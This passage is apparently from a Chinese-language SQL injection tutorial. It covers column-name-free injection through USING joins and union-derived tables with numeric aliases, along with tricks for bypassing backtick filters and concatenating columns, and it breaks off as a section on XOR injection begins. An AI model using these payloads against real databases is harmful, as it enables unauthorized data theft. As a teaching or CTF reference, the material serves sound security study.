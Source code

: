 然后通过 `using` 来排除列名 `id`, 继续爆出其他的列名

`using` 会自动合并两个表中的相同列名

`select * from (select * from users u1 join users u2 using(id)) a;`

以此类推，可以爆出所有的表名

##### union派生表

**原理**

通过虚拟派生表的数字列名，来代替原有的列名

**操作**

通过union查询，需猜测列数，假设这里为5列

`select 1,2,3,4,5 union select * from table;`

会把table的数据存放到一个虚拟表中，同时为五个列设置别名1，2，3，4，5。

这时我们就可以通过别名1，2，3，4，5来代替列名，相当于列名被替换成了数字

进一步查询

``select 2 from (select 1,2,3,4,5 union select * from table)a;``

一些tips

**在数据库查询bypass过滤`**

php端不需要\`\`，但是在数据库中表名需要用\`\`来包裹,如\`table\`

这时``select 2 from (select 1,2,3,4,5 union select * from `table`)a;``

查询不出来数据（MySQL 5.7+ 已经支持数字作为列名了

如下才可以
``select `2` from (select 1,2,3,4,5 union select * from `table`)a;``

当为列名过滤``时，可以再次使用派生表别名来bypass

为派生表a的数字列名2设置别名b,通过b查询列名不再需要\`\`

``select b from (select 1,2 as b,3,4 as c,5 as d union select * from table) a``



**同时查询多个列**

``select concat(b,0x2d,c) from (select 1,2 as b,3 as c,4,5 union select * from `table`)a;``

`0x2d`是`-`，相当于查询2-3的列

[参考](https://err0r.top/article/mardasctf/#/)
[参考](https://erzbir.com/archives/no-column-sql-injection#/)


#### 异或注入

异或注入的原理是通过强制类型转化报错的错误信息来获取信息。

mysql里异或运算符为`^` 或者 `xor`，这里的异或注入主要利用`^`
